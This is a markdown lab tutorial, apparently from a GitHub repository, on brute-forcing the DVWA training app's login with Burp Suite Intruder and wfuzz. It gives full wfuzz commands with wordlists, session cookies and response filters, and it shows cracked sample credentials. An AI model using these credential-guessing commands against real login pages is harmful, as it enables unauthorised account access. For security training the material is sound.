 # Brute Force

### What is Bruce Force Attck?
A brute force attack is a type of cyber attack where an attacker attempts to guess a password or encryption key by trying every possible combination until the correct one is found. Brute force attacks are often used against systems with weak passwords or encryption keys, and can be very effective if the attacker has enough time and resources to try every possible combination.

There are several ways to prevent brute force attacks:

- Use strong passwords: Using complex and unique passwords can make it more difficult for attackers to guess the correct password.
- Limit login attempts: By limiting the number of login attempts allowed, you can prevent attackers from trying every possible combination.
- Use multi-factor authentication: Multi-factor authentication requires users to provide more than one form of authentication to access an account, making it more difficult for attackers to gain access.
- Implement rate-limiting: Rate-limiting restricts the number of requests that can be made to a system within a certain timeframe, which can prevent attackers from launching large-scale brute force attacks.
- Use intrusion detection systems: Intrusion detection systems can detect and block brute force attacks in real-time.
- Keep software up-to-date: Ensuring that software and systems are up-to-date can help prevent vulnerabilities that attackers can exploit for brute force attacks.

By implementing these measures, you can reduce the risk of a successful brute force attack.

## How to implements

#### Low level of complexity using Burp Suite CE:

1. Use Burp Suite Communit Edition to intercept a request.
2. Create a intruder to intercepted request.
3. Go to positions introducer section and add new payload marker to password.
4. Go to payload introducer section and load a list the passwords.
5. Go to settings introducer section and add a Grep - Match "Welcome"
6. Back to positions section and Start attack.

With these simple steps, we can check the Grep - Match column of the responses to find out whether any response returned true for the welcome message.

#### Low level of complexity, attack all users, using Wfuzz:

We can use man wfuzz to show the accepted parameters:

```sh
man wfuzz
```
And wfuzz -h to search for help:
```sh
wfuzz -h
```

For the first test we can try:

```sh
wfuzz -c -w ~/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
```
Some explanations, -c parameters is to coloring the response, -b specify a cookie for the requests, repeat option for several cookies, -w parameters specify the path of the passwords list and the lasted parameter always is the full url that we can attack. 

> Note: We have change the password parameter in url to FUZZ

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 249 W | "123456" |
| 200 | 249 W | "111111" |
| 200 | 249 W | "abc123" |
| 200 | 249 W | "qwerty" |
| 200 | 253 W | "password" |
| 200 | 249 W | "12345678" |

Now we try find the different response, but this can be hard if we work with a lot passwords list. So we can use the fiter to better return visualization. Just add --hs and --sw parameters to filter responset without 'Username and/or password incorrect.' in the body resopnse.

```sh
wfuzz --sw 253  --hs 'Username and/or password incorrect.' -c -w ~/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
```

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 253 W | "password" |

After that we can visualize the responses with more easily. It's a perfect time to remove the admin static parameter and try to add dinamic login information. To do that, we neeed to change the -w parameter to -z and add a new userNames.txt files.

```sh
wfuzz --sw 253  --hs 'Username and/or password incorrect.' -c -z file,/home/igor/Downloads/userNames.txt -z file,/home/igor/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'
```
> Note: We have change the user parameter in url to FUZZ
> Note: We have change the password parameter in url to FUZ2Z

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 253 W | "ADMIN - password" |
| 200 | 253 W | "Admin - password" |
| 200 | 253 W | "admin - password" |
| 200 | 253 W | "gordonb - abc123" |
| 200 | 253 W | "pablo - letmein" |
| 200 | 253 W | "smithy - password"|

#### Medium level of complexity, attack all users, using Wfuzz:

At this level, responses are slower than at the low level. So we can use the same approach at the low level, do the search for different word lengths. We can remove the --sw and --hs filter parameters to try to make this return faster. 

> Note: We have change the cokkies parameters security and PHPSESID.

Once we find a different word length, just add the filter parameters to improve the data visualization.